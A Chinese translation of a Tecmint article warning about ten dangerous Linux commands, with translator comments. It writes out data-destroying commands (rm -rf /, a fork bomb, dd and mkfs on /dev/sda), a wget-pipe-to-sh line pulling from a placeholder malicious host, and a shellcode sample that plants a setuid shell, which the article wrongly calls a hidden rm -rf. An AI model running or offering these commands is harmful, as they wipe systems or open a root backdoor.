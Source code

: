 ```yaml
---
author: ''
categories: 技术
comments_data: []
count:
  commentnum: 0
  favtimes: 3
  likes: 1
  sharetimes: 0
  viewnum: 34462
date: '2013-12-07 10:10:00'
editorchoice: false
excerpt: Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对Linux或linux
  命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。 ...
fromurl: ''
id: 2341
islctt: true
largepic: https://img.linux.net.cn/data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg
url: /article-2341-1.html
pic: https://img.linux.net.cn/data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg.thumb.jpg
related: []
reviewer: ''
selector: ''
summary: Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对Linux或linux
  命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。 ...
tags:
- Linux
- 危险
- 命令
thumb: false
title: 永远不要在Linux执行的10个最危险的命令
titlepic: false
translator: Luoxcat
updated: '2013-12-07 10:10:00'
---
```


Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对**Linux**或**linux 命令行**的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。（译注：当然，以下命令通常都是在root权限下才能将愚蠢发挥到无可救药；在普通用户身份下，破坏的只是自己的一亩三分地。）


![](https://img.linux.net.cn/data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg)


### 1. rm -rf 命令


**rm -rf**命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些**rm 命令**的选项。


* **rm**　命令在Linux下通常用来删除文件。
* **rm -r** 命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是“甚至是非空的文件夹”）
* **rm -f** 命令能不经过询问直接删除‘只读文件’。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来要求删除确认，而-f则抑制了这个提示。）
* **rm -rf /** : 强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）
* rm -rf \*:　强制删除当前目录的所有文件。
* **rm -rf .** : 强制删除当前文件夹及其子文件夹。


从现在起，当你要执行**rm -rf**命令时请留心一点。我们可以在“**.bashrc**”文件对‘**rm**‘命令创建**rm -i**的别名，来预防用 ‘**rm**‘命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好你在做什么！译者本人有着血泪的教训啊。）


### 2. :(){:|:&};: 命令


这就是个**fork 炸弹**的实例。具体操作是通过定义一个名为 ‘:‘的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。



```
:(){:|:&};:

```

哦？你确认你要试试么？千万别在公司正式的服务器上实验啊~~


### 3. 命令　> /dev/sda


上列命令会将某个‘**命令**‘的输出写到块设备**/dev/sda**中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。


### 4. mv 文件夹 /dev/null


这个命令会移动某个‘**文件夹**‘到**/dev/null**。在Linux中 **/dev/null** 或 **null** 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。）



```
# mv /home/user/* /dev/null

```

上列命令会将**User**目录所有内容移动到**/dev/null**，这意味着所有东西都被‘卷入’**黑洞　(null)**之中。


### 5. wget http://malicious\_source -O- | sh


上列命令会从一个（也许是）恶意源下载一个脚本并执行。Ｗget命令会下载这个脚本，而**sh**会（无条件的）执行下载下来的脚本。


**注意**: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。）


### 6. mkfs.ext3 /dev/sda


上列命令会格式化块设备‘**sda**’，你无疑知道在执行上列命令后你的块设备(**硬盘驱动器**)会被格式化，**崭新的!**没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁灭性的，上面的数据都会被蒸发了。）


### 7. > file


上列命令常用来清空文件内容（译注：通常也用于记录命令输出。不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是“>>”，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似 “> **xt.conf**”　的命令会覆盖配置文件或其他任何的系统配置文件。


### **8. ^foo^bar**


这个命令在我们[十个鲜为人知的 Linux 命令 - Part 3](http://linux.cn/article-2284-1.html)中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用**<sup> foo <sup>  bar </sup></sup>**命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的“黑客”技巧。）


### 9. dd if=/dev/random of=/dev/sda


上列命令会向块设备**sda**写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。）


### 10. 隐藏命令


下面的命令其实就是上面第一个命令 (**rm -rf**)。这里的代码是隐藏在**十六进制**里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的**根**分区。


这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。



```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;

```

**注意**: 不要在你的或你的同学或学校的电脑里的**Linux**终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章**作者**和**Tecmint**概不负责。（译注：译者和转载网站也不负责~！）


今天就到此为止吧，我会很快回来这里，同时带上另一篇你们喜欢的文章。到那时请继续关注和访问**Tecmint**。如果你知道任何其他**危险的Linux命令**，也想添加到我们的列表中，请通过评论留言给我们同时也别忘了留下你的宝贵意见。




---


via: <http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/>


译者：[Luoxcat](https://github.com/Luoxcat) 校对：[wxy](https://github.com/wxy)


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](http://linux.cn/) 荣誉推出